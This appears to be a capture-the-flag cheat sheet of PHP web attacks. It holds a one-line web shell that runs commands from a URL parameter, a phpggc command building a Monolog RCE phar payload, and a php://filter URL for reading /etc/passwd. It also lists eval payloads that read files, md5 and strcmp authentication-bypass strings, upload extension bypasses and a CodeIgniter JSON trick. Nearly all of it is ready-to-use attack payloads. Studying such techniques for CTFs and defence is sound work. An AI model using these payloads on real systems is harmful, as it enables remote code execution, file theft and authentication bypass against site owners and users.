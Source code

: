 ## PHP

- **Run commands**
  ```php
  <?php
    echo system($_GET['c']);
  ?>
  ```

- `phar`
    - [https://github.com/ambionics/phpggc](https://github.com/ambionics/phpggc)
    - ```php
      php -d phar.readonly=0 ./phpggc Monolog/RCE1 system \
      'cat /flag.txt > /var/www/html/flag.txt' \
      -p phar -o evil.phar
      ```
    - Upload path should be `phar://uploads`
    
- `preg_replace`

  - Local File Inclusion bug.
    - [http://php.net/manual/en/function.preg-replace.php](http://php.net/manual/en/function.preg-replace.php)

- `phpdc.phpr`

  - Decompile if used `bcompile`.

- `php://filter`

  ```txt
  http://target.com/index.php?m=php://filter/convert.base64-encode/resource=/etc/passwd
  ```

- `md5('value', true);`

  List of bypass strings

  - `129581926211651571912466741651878684928`

- `strcmp`

  List of bypass strings
  - `?password[]=123`

- `eval`

  - `phpinfo();`
  - `var_dump(scandir('/'));`
  - `var_dump(file_get_contents('/etc/passwd'));`

- [`Hash extender`](https://github.com/iagox86/hash_extender)
  - `username=guest&date=2025-04-05T20:02:28+0800&secret_length=8&`

- `composer` (package management tool)
    - `composer install`
    - `composer audit`

### File extension bypass

  - `.php5`
  - `.jpg.php`

### Codeigniter

  - **Add "root" head into json**
      - `{"username":"admin","password":"123"}` -> `{"root":{"username":"admin","password":"123"}}`
